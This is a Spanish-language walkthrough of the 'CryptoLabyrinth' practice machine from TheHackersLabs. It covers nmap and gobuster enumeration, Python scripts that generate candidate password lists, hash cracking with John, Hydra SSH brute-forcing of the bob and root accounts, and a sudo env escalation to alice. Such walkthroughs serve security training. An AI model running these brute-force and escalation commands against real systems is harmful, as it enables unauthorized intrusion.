# Resolución de Máquina CryptoLabyrinth de TheHackersLabs

## Web

URL: https://thehackerslabs.com/cryptolabyrinth/



## Reconocimiento

### IP de máquina víctima

Después de prender tu máquina víctima, se muestra la IP



O puedes averiguarlo desde tu máquina atacante con
```bash
sudo arp-scan -l
```
para escanear la red local e identificar todos los dispositivos conectados a ella.



Visualizamos la IP 10.0.2.33 de la máquina víctima

### Comprobar comunicación

Verificamos si tenemos comunicación con la máquina víctima
```bash
ping -c1 10.0.2.33 
```


Y vemos que sí tenemos comunicación

### Creación de espacio de trabajo (opcional)

Esto es a criterio de cada uno. En mi caso particular:
1. Creo una carpeta con el nombre de la máquina víctima
2. Creo una carpeta dentro con el IP de máquina víctima




## Enumeración

### Escaneo de puertos

```bash
sudo nmap -sSCV -p- 10.0.2.33 -oN scan --min-rate 5000 -n -Pn
```
-sS: Realiza un escaneo SYN que es rápido y sigiloso porque no completa la conexión TCP.

-sC: Ejecuta los scripts NSE (Nmap Scripting Engine) predeterminados para detectar vulnerabilidades comunes.

-sV: Detecta versiones de servicios que están en ejecución en los puertos abiertos.

-p-: Escanea todos los puertos (del 1 al 65535) y asegura que ningún puerto quede sin escanear.  

10.0.2.33: Dirección IP del objetivo.

-oN: Guarda la salida en formato normal.

--min-rate 5000: Establece una tasa mínima de 5000 paquetes por segundo para acelerar el escaneo.

-n: Acelerar el escaneo al evitar la resolución de nombres de dominio.

-Pn: Trata todos los hosts como activos y omite el paso de ping.



Podemos ver los puertos 22(ssh) y 80(http) abiertos.

Damos un vistazo rápidamente al puerto 80 con whatweb



Vemos que hay una web corriendo sobre apache, así que la visitamos en el navegador



Revisamos su código fuente



Identificamos una posible password 2LWxmDsW0** donde los asteriscos podrían representar cualquier caracter alfanumérico. Así que crearemos un archivo llamado passwords.txt con todos las posbiles combinaciones que reemplacen a los asteriscos. Esto será generado por el siguiente script python: 
```bash
nano generar_diccionario.py 
```

```bash
import itertools
import string

base = "2LWxmDsW0"
caracteres = string.ascii_letters + string.digits

with open("passwords.txt", "w") as f:
    for c1, c2 in itertools.product(caracteres, repeat=2):
        f.write(f"{base}{c1}{c2}\n")

```

le damos permisos de ejecución y lo ejecutamos

```bash
chmod +x generar_diccionario.py
python3 generar_diccionario.py
cat passwords.txt
```



### Fuzzing de directorios
Para esto usamos gobuster de la siguiente manera
```bash
gobuster dir -u 10.0.2.33 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,txt
```
dir: Utiliza gobuster para descubrir directorios en el servidor web.

-u 10.0.2.33: Establece la URL objetivo a escanear.

-w: Usa el archivo de lista de palabras especificado para realizar el escaneo de directorios.

-t 200: Establece 200 hilos para el escaneo concurrente, lo que acelera el proceso.

-x php,txt: Agrega extensiones php y txt a los directorios buscados, lo que ayuda a descubrir archivos con esas extensiones.



Hemos encontrado un directorio interesante llamado hidden, así que ingresaremos a él por el navegador



Encontramos archivos que al parecer nos darán pistas sobre passwords y también podemos enumerar posibles usuarios a simple vista:

1. bob
2. alice

Revisaremos los archivos bob_password para intentar nutrir más nuestro archivo passwords.txt antes de realizar algún tipo de fuerza bruta. (ASVISO: Esta parte es un Rabbit Hole)

Aprovechemos la herramienta online CrackStation https://crackstation.net/












No pudimos crackear el hash 5, para ellos usaremos hash-identifier para saber con qué función hash criptográfica se obtuvo el hash con mayor probabilidad.



Observamos que posiblemente se haya generado con MD5, pero crackstation también maneja MD5. Entonces o no fue MD5 o la palabra hasheada no se encuentra en el diccioanrio de crackstation.  

Usaremos John The Ripper para tratar de crackear el hash  

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt bob_password5.hash 
```




Notamos algo que llama la atención en John, existe una función hash criptográfica llamada raw-md5, así que forzaremos a John a utilizarlo.

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt bob_password5.hash
```



Hemos logrado crackear es hash número 5 de bob.

Luego de esto, agregamos las posibles passwords encontradas al archivo passwords.txt

```bash
echo -e "123456\nchocolate\nletmein\nqwerty\nfuckyooh21" >> passwords.txt
```



## Explotación

### Fuerza bruta con Hydra

Probaremos las passwords encontradas hasta el momento con el usuario bob por el puerto 22 (ssh)

```bash
hydra -l bob -P passwords.txt ssh://10.0.2.33 -t 64 -V -f
```



Hemos logrado encontrar la clave ssh de bob.

NOTA: Nos damos cuenta que los passwords adicionales que encontramos en la carpeta hidden no nos sirvieron de todas maneras, a esto se conoce como rabbit hole, es decir, se trata de desviar nuestra atención para hacernos perder tiempo. A veces te darás cuenta cuando ya lo has probado todo por ese hilo, pero de eso se trata, de probar y probar, pero saber cuándo parar y darte cuenta que estás en un Rabbit Hole!

### Conexión por SSH

Ingresamos por ssh con las credenciales encontradas
```bash
ssh bob@10.0.2.33
```


Y una vez dentro encontramos la flag users.txt, pero esta es diferente a la que necesitamos user.txt



Luego tratamos de ingresar a la carpeta del usuario alice pero no es posible

### Escalamiento horizontal de privilegios

Entonces buscaremos si existen permisos sudo para algunos binarios

```bash
sudo -l
```


El usuario bob puede ejecutar el binario env como el usuario alice.

Consultamos a nuestra herramienta searchbins 
```bash
searchbins -b env -f sudo
```


Y podemos ver el comando sugerido para escalar privilegios horizontalmente hacia alice. Modificamos convenientemente el script y lo ejecutamos

```bash
sudo -u alice /usr/bin/env /bin/bash
```


Ya somos alice. Ahora buscaremos el flag user.txt



Hubieron otras pistas que las repasaremos brevemente por ser también parte de un Rabbit Hole, desde mi punto de vista

El archivo alice_aes.enc necesitaba una password que la proporcionaba el archivo numeros_suerte.txt





Las demás pistas son estas  










### Escalamiento vertical de privilegios

En la carpeta /mnt encontramos un archivo llamado .secreto.txt con una posible password 2LWx\*DsW0A\* donde nuevamente los asteriscos podrían representar cualquier caracter alfanumérico. 



Así que crearemos un archivo llamado passwords2.txt con todos las posbiles combinaciones que reemplacen a los asteriscos. Esto será generado por el siguiente script python: 
```bash

nano generar_diccionario2.py 
```

```bash     
import itertools
import string

base = "2LWx{}DsW0A{}"
caracteres = string.ascii_letters + string.digits

with open("passwords2.txt", "w") as f:
    for c1, c2 in itertools.product(caracteres, repeat=2):
        f.write(f"{base.format(c1, c2)}\n")
```

le damos permisos de ejecución y lo ejecutamos

```bash
chmod +x generar_diccionario2.py
python3 generar_diccionario2.py
cat passwords2.txt
```



### Fuerza bruta con Hydra

Probaremos las passwords encontradas con el usuario root por el puerto 22 (ssh)

```bash
hydra -l root -P passwords2.txt ssh://10.0.2.33 -t 64 -V -f
```



Hemos logrado encontrar la clave ssh de root.  

Ingresamos por ssh con las credenciales de root y buscaremos la flag root.txt


Con esto hemos acabado

Happy Hacking!!!

---p4ntr0x---
